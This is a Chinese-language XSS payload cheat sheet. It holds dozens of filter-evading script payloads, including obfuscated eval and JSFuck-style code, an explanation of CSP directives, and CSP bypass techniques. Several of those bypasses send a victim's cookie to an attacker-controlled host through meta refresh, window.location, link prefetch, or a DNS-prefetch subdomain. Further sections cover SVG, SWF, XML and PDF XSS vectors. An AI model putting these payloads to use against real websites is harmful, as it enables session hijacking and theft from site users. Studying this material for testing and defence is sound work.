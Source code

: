 #### 常见payload

~~~js
 <script>prompt(1)</script>
 <script>confirm(1)</script>
 <script>
 var fn=window[490837..toString(1<<5)];
 fn(atob('YWxlcnQoMSk='));
 </script>
 <script>
 var fn=window[String.fromCharCode(101,118,97,108)];
 fn(atob('YWxlcnQoMSk='));
 </script>
 <script>
 var fn=window[atob('ZXZhbA==')];
 fn(atob('YWxlcnQoMSk='));
 </script>
 <script>window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))</script>
 <script>this[490837..toString(1<<5)](atob('YWxlcnQoMSk='))</script>
 <script>this[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][+[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]](++[[]][+[]])</script>
 <script>this[(+{}+[])[-~[]]+(![]+[])[-~-~[]]+([][+[]]+[])[-~-~-~[]]+(!![]+[])[-~[]]+(!![]+[])[+[]]]((-~[]+[]))</script>
 <script>'str1ng'.replace(/1/,alert)</script>
 <script>'bbbalert(1)cccc'.replace(/a\w{4}\(\d\)/,eval)</script>
 <script>'a1l2e3r4t6'.replace(/(.).(.).(.).(.).(.)/, function(match,$1,$2,$3,$4,$5) { this[$1+$2+$3+$4+$5](1); })</script>
 <script>eval('\\u'+'0061'+'lert(1)')</script>
 <script>throw~delete~typeof~prompt(1)</script>
 <script>delete[a=alert]/prompt a(1)</script>
 <script>delete[a=this[atob('YWxlcnQ=')]]/prompt a(1)</script>
 <script>(()=>{return this})().alert(1)</script>
 <script>new function(){new.target.constructor('alert(1)')();}</script>
 <script>Reflect.construct(function(){new.target.constructor('alert(1)')()},[])</script>
 <link/rel=prefetch
import href=data:q;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg>
 <link rel="import" href="data:x,<script>alert(1)</script>
 <script>Array.from`1${alert}3${window}2`</script>
 <script>!{x(){alert(1)}}.x()</script>
 <script>Array.from`${eval}alert\`1\``</script>
 <script>Array.from([1],alert)</script>
 <script>Promise.reject("1").then(null,alert)</script>
 <svg </onload ="1> (_=alert,_(1)) "">
 javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
 <marquee loop=1 width=0 onfinish=alert(1)>
 <p onbeforescriptexecute="alert(1)"><svg><script>\</p>
 <img onerror=alert(1) src <u></u>
 <videogt;<source onerror=javascript:prompt(911)gt;
 <base target="<script>alert(1)</script>"><a href="javascript:name">CLICK</a>
 <base href="javascript:/"><a href="**/alert(1)"><base href="javascript:/"><a href="**/alert(1)">
 <style>@KeyFrames x{</style><div style=animation-name:x onanimationstart=alert(1)> <
 <script>```${``[class extends[alert``]{}]}```</script>
 <script>[class extends[alert````]{}]</script>
 <script>throw new class extends Function{}('alert(1)')``</script>
 <script>x=new class extends Function{}('alert(1)'); x=new x;</script>
 <script>new class extends alert(1){}</script>
 <script>new class extends class extends class extends class extends alert(1){}{}{}{}</script>
 <script>new Image()[unescape('%6f%77%6e%65%72%44%6f%63%75%6d%65%6e%74')][atob('ZGVmYXVsdFZpZXc=')][8680439..toString(30)](1)</script>
 <script src=data:,\u006fnerror=\u0061lert(1)></script>
 "><svg><script/xlink:href="data:,alert(1)
 <svg><script/xlink:href=data:,alert(1)></script>
 <frameset/onpageshow=alert(1)>
 <div onactivate=alert('Xss') id=xss style=overflow:scroll>
 <div onfocus=alert('xx') id=xss style=display:table>
~~~

##### img onerror 姿势

~~~js
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\x2561lert(1)'" src="x">
<img onerror="location='javascript:\x255Cu0061lert(1)'" src="x" >
~~~

##### eval 姿势

~~~javascript
<script>alert(1)</script>
onfocus=javascript:alert(1)
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
~~~

##### HttpOnly

如果HTTP响应头中包含HttpOnly标志，只要浏览器支持HttpOnly标志，客户端脚本就无法访问cookie。因此，即使存在跨站点脚本（XSS）缺陷，且用户意外访问利用此漏洞的链接，浏览器也不会向第三方透露cookie。如果浏览器不支持HttpOnly并且网站尝试设置HttpOnly cookie，浏览器会忽略HttpOnly标志，从而创建一个传统的，脚本可访问的cookie

#### 绕过CSP策略

一个CSP头由多组CSP策略组成

~~~http
Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-inline'
~~~

其中每一组策略包含一个**策略指令**和一个**内容源**列表

##### 常用的策略指令

- ##### default-src

default-src 指令定义了那些没有被更精确指令指定的安全策略。这些指令包括：

- child-src

- connect-src

- font-src

- img-src

- media-src

- object-src

- script-src

- style-src

- ##### script-src

script-src定义了页面中Javascript的有效来源

- ##### style-src

style-src定义了页面中CSS样式的有效来源

- ##### img-src

img-src定义了页面中图片和图标的有效来源

- ##### font-src

font-src定义了字体加载的有效来源

- ##### connect-src

connect-src定义了请求、XMLHttpRequest、WebSocket 和 EventSource 的连接来源。

- ##### child-src

child-src 指定定义了 web workers 以及嵌套的浏览上下文（如<frame>和<iframe>）的源。

##### 内容源：

内容源有三种：源列表、关键字和数据

- ##### 源列表：指定地址

- ##### 关键字：

  ##### none

  代表空集；即不匹配任何 URL。两侧单引号是必须的。

  **'self'**
  代表和文档同源，包括相同的 URL 协议和端口号。两侧单引号是必须的。

  **'unsafe-inline'**
  允许使用内联资源，如内联的<script>元素、javascript: URL、内联的事件处理函数和内联的<style>元素，两侧单引号是必须的。

  **'unsafe-eval'**
  允许使用 eval() 等通过字符串创建代码的方法。两侧单引号是必须的。

  ##### 数据

  - **data:**
    允许data: URI作为内容来源。
  - **mediastream:**
    允许mediastream: URI作为内容来源


##### CSP绕过方式

https://www.jianshu.com/p/f1de775bc43e

###### url跳转

在default-src 'none'的情况下，可以使用meta标签实现跳转

~~~
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
~~~

在允许unsafe-inline的情况下，可以用window.location，或者window.open之类的方法进行跳转绕过

~~~js
<script>
  window.location="http://www.xss.com/x.php?c=[cookie]";
</script>
~~~

###### \<link>标签预加载

在Chrome下，可以使用如下标签发送cookie（最新版Chrome会禁止）

```
<link rel="prefetch" href="http://www.xss.com/x.php?c=[cookie]">
```

在Firefox下，可以将cookie作为子域名，用dns预解析的方式把cookie带出去，查看dns服务器的日志就能得到cookie

~~~
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
~~~



#### SVG导致的XSS

~~~
markdown编辑器打XSS
~~~

~~~
可缩放矢量图形
在很多Markdown语言的编辑器中，<div> 和 <svg> 是可以直接解析的，我们在测试网站插入如下代码：
~~~

~~~html
<div width="100%" style="overflow-x: auto;"> 
<svg width="140" height="170">
<title>SVG Sample</title>
<desc>This is a sample to use SVG in markdown on the website cnblogs.</desc> <circle cx="70" cy="95" r="50" style="stroke: black; fill: none;"/>
</svg>
</div>
~~~

~~~
SVG标准中定义了script标签的存在，<svg> 遵循XML和SVG的定义，因此我们可以利用其来进行XSS攻击。因此可以通过 <svg> 加载XSSpayload，转换后的格式中 <svg> 标签不会转换，payload： <svg/onload=alert(1)> ，轻松绕过过滤：
~~~

~~~
<svg/onload=alert(1)>
~~~





#### SWF引入外部JS导致的XSS

~~~
http://localhost/phpwind/www/res/js/dev/util_libs/jPlayer/Jplayer.swf?jQuery=alert(1))}catch(e){}//

http://localhost/phpwind/www/res/js/dev/util_libs/jPlayer/Jplayer.swf?id='))}catch(e){alert(1)}//
~~~



#### XML-XSS

~~~xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert("test");
</something:script>
</body>
</html>
~~~



#### PDF XSS

https://blog.csdn.net/qq_50854662/article/details/126480744

[![cb67163897d62facd5a9b7981f271d77.png](https://s1.imagehub.cc/images/2023/03/26/cb67163897d62facd5a9b7981f271d77.png)](https://www.imagehub.cc/image/XgZlj)











